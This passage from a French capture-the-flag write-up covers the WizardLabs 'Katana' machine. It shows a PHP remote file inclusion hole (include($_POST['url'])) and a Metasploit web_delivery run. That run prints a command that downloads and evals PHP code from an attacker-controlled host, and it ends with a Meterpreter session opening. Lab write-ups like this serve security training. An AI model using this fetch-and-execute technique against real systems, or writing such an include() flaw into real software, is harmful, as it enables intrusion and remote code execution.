 Pas très bavard, mais quand je coupe la connexion j'ai une erreur plus parlante :  

![WizardLabs CTF Katana URL scanner include() vulnerability](/assets/img/wizard-labs/katana/katana_include.png)

Cette fois on l'a notre faille *include()*.  

Bien sûr on peut aussi lire directement le contenu du script avec la précédente vulnérabilité :  

```php
<?php

include($_POST['url']);

?>
```

Il y a évidement bien des façons d'exploiter cette faille. J'ai utilisé le module *web\_delivery* de Metasploit et juste passé l'URL à inclure :  

```plain
msf5 exploit(multi/script/web_delivery) > [*] Using URL: http://10.254.0.29:8080/PxAh2W8I
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://10.254.0.29:8080/PxAh2W8I'));"
[*] 10.1.1.52        web_delivery - Delivering Payload
[*] Meterpreter session 2 opened (10.254.0.29:7777 -> 10.1.1.52:56943) at 2019-03-23 11:27:36 +0100

msf5 exploit(multi/script/web_delivery) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > pwd
C:\wamp64\scannerformonero
```

Le Meterpreter PHP a quelques ratées et refuse de nous donner le listing des fichiers ou d'exécuter des commandes sur le système mais il permet au moins l'upload et le téléchargement de fichiers.  

Si il ne permet pas ici l'exécution de fichiers c'est en fait parce que les fonctions PHP liées ont été désactivées comme mentionnées dans le *phpinfo()* que l'on aura préalablement uploadé :  

```plain
exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```

On en profite pour confirmer la version du système : *Windows NT KATANA 10.0 build 17134 (Windows 10) AMD64*.  

Il faut aussi compter sur la présence de *Windows Defender*...  
